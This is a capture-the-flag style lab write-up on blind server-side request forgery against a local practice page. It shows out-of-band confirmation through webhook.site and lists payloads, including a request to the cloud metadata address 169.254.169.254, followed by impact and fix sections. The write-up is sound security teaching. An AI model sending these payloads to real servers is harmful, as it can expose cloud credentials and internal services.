



# SSRF 0x02 [Blind SSRF]

## What is Blind SSRF?
Blind SSRF is when the server makes a request
to the attacker-controlled URL but does NOT
return the response to the attacker. Unlike
regular SSRF, you cannot see the response from
the internal target — making confirmation harder.

To detect Blind SSRF, attackers use:
- Out-of-band servers (webhook.site, interactsh,
  Burp Collaborator) — checks if server made the request
- Time-based detection — measure delay differences
- DNS-based detection — monitor for DNS lookups

## Target
http://localhost/labs/s0x02.php

## Vulnerability
The application fetches a URL from user input
but does NOT return the response content back
to the user. The server only returns a generic
error/success message — making this Blind SSRF.

## Attack

### Step 1 — Identify the lab
Opened SSRF 0x02 — similar to 0x01 but the
response no longer leaks the fetched content.

### Step 2 — Test normal request in Burp
Sent the request through Burp Suite Repeater:
{"url": "http://localhost/labs/api/admin.php"}
Response: 
{
  "status": "error",
  "message": "Invalid data from third-party"
}
No content leaked — confirmed this is Blind SSRF.

### Step 3 — Set up Webhook listener
Got a unique webhook URL to receive incoming
requests from the server:
https://webhook.site/96460f11-77ba-4fec-...

### Step 4 — Send Blind SSRF payload
Changed the url parameter to point to webhook.site:
{
  "url": "https://webhook.site/96460f11-77ba-4fec-b30e-59f0aa3b6561"
}

### Step 5 — Confirm Blind SSRF via webhook
Checked webhook.site inbox:
- GET request received ✅
- Host: 31.14.252.3 (server's IP)
- Date: 06/13/2026 4:56:09 AM
- User-Agent: (server's HTTP client)

The server made the request on our behalf —
Blind SSRF confirmed!

## Payloads Used
```json
{"url": "https://webhook.site/96460f11-77ba-4fec-b30e-59f0aa3b6561"}
{"url": "http://localhost/labs/api/admin.php"}
{"url": "http://169.254.169.254/latest/meta-data/"}
```

## Why Webhook.site Works
Even though the application does not return the
response to us — it still makes the HTTP request
from the server. By pointing the URL to a server
WE control (webhook.site), we can see proof
the request was made — including the server's
IP, headers, and timing.

## Screenshots




## Impact
- Confirmation of internal request capability
- Internal port scanning (via time-based detection)
- Cloud metadata exposure (AWS, GCP, Azure)
- Internal service interaction via gopher://, dict://
- Bypass firewalls from server's network position
- Same impact as regular SSRF but harder to detect

## Fix
- Validate and whitelist allowed destination URLs
- Block all internal IP ranges and metadata IPs
- Disable unused URL schemes
- Use network egress filtering at firewall level
- Monitor outbound HTTP requests from servers
- Implement strict timeouts on outbound requests
- Use a dedicated proxy with allowlist for outbound
